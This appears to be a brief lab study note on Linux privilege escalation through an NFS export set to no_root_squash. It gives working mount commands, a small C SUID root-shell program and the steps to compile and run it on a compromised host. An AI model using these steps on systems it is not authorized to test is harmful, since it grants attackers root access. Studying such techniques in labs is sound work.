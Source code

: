 ```bash
cat /etc/exports
```
If we see **no_root_squash,** this means that the folder attached is shareable and can be mounted. If we connect to the file share as root, any file that we make in the share will be owned by root and if we add the SUID bit it will be ran as root.
![[Pasted image 20250214220356.png]]
On our machine
```bash
showmount -e 10.10.182.186   <---- Target IP
sudo mount -o rw,vers=3 10.10.182.186:/tmp /tmp/mountme
```

```bash
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mountme/x.c
```

On compromised host
```bash
gcc /tmp/x.c -o /tmp/x  
```

On our machine
```bash
chmod +s /tmp/mountme/x
```

On compromised host
```bash
/tmp/x
```